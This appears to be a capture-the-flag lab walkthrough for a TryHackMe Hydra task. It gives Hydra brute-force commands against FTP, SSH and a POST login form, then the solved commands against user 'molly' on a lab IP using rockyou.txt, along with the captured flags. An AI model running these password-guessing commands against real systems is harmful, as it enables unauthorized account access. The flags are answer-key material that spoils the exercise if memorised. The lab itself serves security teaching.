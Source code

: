 # Task 2  Using Hydra
Deploy the machine attached to this task, then navigate to http://MACHINE_IP (this machine can take up to 3 minutes to boot)

## Hydra Commands
The options we pass into Hydra depends on which service (protocol) we're attacking. For example if we wanted to bruteforce FTP with the username being user and a password list being passlist.txt, we'd use the following command:

```shell
hydra -l user -P passlist.txt ftp://MACHINE_IP
```

For the purpose of this deployed machine, here are the commands to use Hydra on SSH and a web form (POST method).

### SSH

```shell
hydra -l <username> -P <full path to pass> MACHINE_IP -t 4 ssh
```

### Post Web Form
We can use Hydra to bruteforce web forms too, you will have to make sure you know which type of request its making - a GET or POST methods are normally used. You can use your browsers network tab (in developer tools) to see the request types, or simply view the source code.

Below is an example Hydra command to brute force a POST login form:

```shell
hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

You should now have enough information to put this to practise and brute-force yourself credentials to the deployed machine!

### Answer the questions below

#Use Hydra to bruteforce molly's web password. What is flag 1?

```shell
hydra -l molly -P ~/Documents/Tools/rockyou.txt 10.10.53.223 http-post-form "/login/:username=^USER^&password=^PASS^:F=incorrect" -V | tee hydra-web.log
```

> THM{2673a7dd116de68e85c48ec0b1f2612e}

#Use Hydra to bruteforce molly's SSH password. What is flag 2?

```shell
hydra -l molly -P /home/ulli/Documents/Tools/rockyou.txt 10.10.53.223 -t 4 ssh | tee ssh-hydra.log
```

> THM{c8eeb0468febbadea859baeb33b2541b}


